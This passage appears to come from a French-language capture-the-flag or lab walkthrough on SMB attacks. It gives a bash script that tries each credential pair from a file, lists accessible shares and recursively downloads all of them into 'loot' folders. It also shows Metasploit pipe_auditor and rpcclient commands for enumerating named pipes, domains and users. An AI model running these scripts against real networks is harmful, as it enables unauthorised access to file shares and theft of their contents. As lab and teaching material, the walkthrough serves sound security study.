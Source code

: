 #### Script automatisé pour collecte
```bash
#!/bin/bash
# smb_collector.sh

TARGET=$1
CREDS_FILE=$2  # Format: username:password

while IFS=':' read -r username password; do
    echo "[*] Collecting from $username"
    
    # Créer répertoire pour l'utilisateur
    mkdir -p "smb_loot_$username"
    
    # Liste des partages accessibles
    smbclient -L $TARGET -U "$username%$password" -W WORKGROUP 2>/dev/null | grep "Disk" | awk '{print $1}' > shares_$username.txt
    
    # Télécharger depuis chaque partage
    while IFS= read -r share; do
        echo "[+] Accessing share: $share"
        smbclient //$TARGET/$share -U "$username%$password" -c "prompt OFF; recurse ON; mget *" 2>/dev/null
        mv * "smb_loot_$username/" 2>/dev/null
    done < shares_$username.txt
    
done < "$CREDS_FILE"

# Recherche de flags
find smb_loot_*/ -type f -exec grep -l "flag\|{.*}" {} \; 2>/dev/null
```

---

## Phase 6: Énumération des Named Pipes (Méthode du lab)

### Avec Metasploit pipe_auditor
```bash
# Configuration comme dans le lab
msfconsole -q
use auxiliary/scanner/smb/pipe_auditor
set SMBUser admin
set SMBPass password1
set RHOSTS <target>
exploit
```

### Énumération manuelle des pipes
```bash
# Avec smbclient
smbclient //<target>/IPC$ -U admin
# Dans la session:
help

# Avec rpcclient
rpcclient -U admin <target>
# Dans la session:
help
enumdomains
enumdomusers
```
